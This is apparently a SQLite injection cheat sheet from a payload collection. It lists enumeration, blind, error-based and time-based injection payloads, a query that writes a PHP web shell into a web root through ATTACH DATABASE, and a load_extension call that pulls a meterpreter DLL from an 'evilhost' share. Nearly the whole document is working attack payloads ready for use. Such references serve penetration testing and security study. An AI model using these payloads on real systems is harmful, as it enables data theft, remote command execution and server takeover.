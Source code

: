 # SQLite Injection

> SQLite Injection  is a type of security vulnerability that occurs when an attacker can insert or "inject" malicious SQL code into SQL queries executed by an SQLite database. This vulnerability arises when user inputs are integrated into SQL statements without proper sanitization or parameterization, allowing attackers to manipulate the query logic. Such injections can lead to unauthorized data access, data manipulation, and other severe security issues.

## Summary

* [SQLite Comments](#sqlite-comments)
* [SQLite Enumeration](#sqlite-enumeration)
* [SQLite String](#sqlite-string)
    * [SQLite String Methodology](#sqlite-string-methodology)
* [SQLite Blind](#sqlite-blind)
    * [SQLite Blind Methodology](#sqlite-blind-methodology)
    * [SQLite Blind With Substring Equivalent](#sqlite-blind-with-substring-equivalent)
* [SQlite Error Based](#sqlite-error-based)
* [SQlite Time Based](#sqlite-time-based)
* [SQlite Remote Code Execution](#sqlite-remote-code-execution)
    * [Attach Database](#attach-database)
    * [Load_extension](#load_extension)
* [SQLite File Manipulation](#sqlite-file-manipulation)
    * [SQLite Read File](#sqlite-read-file)
    * [SQLite Write File](#sqlite-write-file)
* [References](#references)

## SQLite Comments

| Description         | Comment |
| ------------------- | ------- |
| Single-Line Comment | `--`    |
| Multi-Line Comment  | `/**/`  |

## SQLite Enumeration

| Description   | SQL Query |
| ------------- | ----------------------------------------- |
| DBMS version  | `select sqlite_version();`                |

## SQLite String

### SQLite String Methodology

| Description             | SQL Query                                 |
| ----------------------- | ----------------------------------------- |
| Extract Database Structure                           | `SELECT sql FROM sqlite_schema` |
| Extract Database Structure (sqlite_version > 3.33.0) | `SELECT sql FROM sqlite_master` |
| Extract Table Name  | `SELECT tbl_name FROM sqlite_master WHERE type='table'` |
| Extract Table Name  | `SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'` |
| Extract Column Name | `SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'` |
| Extract Column Name | `SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');` |
| Extract Column Name | `SELECT MAX(sql) FROM sqlite_master WHERE tbl_name='<TABLE_NAME>'` |
| Extract Column Name | `SELECT name FROM PRAGMA_TABLE_INFO('<TABLE_NAME>')` |

## SQLite Blind

### SQLite Blind Methodology

| Description             | SQL Query                                 |
| ----------------------- | ----------------------------------------- |
| Count Number Of Tables  | `AND (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' ) < number_of_table` |
| Enumerating Table Name  | `AND (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0)=table_name_length_number` |
| Extract Info            | `AND (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) > HEX('some_char')` |
| Extract Info (order by) | `CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) = HEX('some_char') THEN <order_element_1> ELSE <order_element_2> END` |

### SQLite Blind With Substring Equivalent

| Function    | Example                                   |
| ----------- | ----------------------------------------- |
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`  |
| `SUBSTR`    | `SUBSTR('foobar', <START>, <LENGTH>)`     |

## SQlite Error Based

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```

## SQlite Time Based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
AND 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

## SQLite Remote Code Execution

### Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

### Load_extension

:warning: This component is disabled by default.

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

## SQLite File Manipulation

### SQLite Read File

SQLite does not support file I/O operations by default.

### SQLite Write File

```sql
SELECT writefile('/path/to/file', column_name) FROM table_name
```

## References

* [Injecting SQLite database based application - Manish Kishan Tanwar - February 14, 2017](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
* [SQLite Error Based Injection for Enumeration - Rio Asmara Suryadi - February 6, 2021](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
* [SQLite3 Injection Cheat sheet - Nickosaurus Hax - May 31, 2012](https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet)
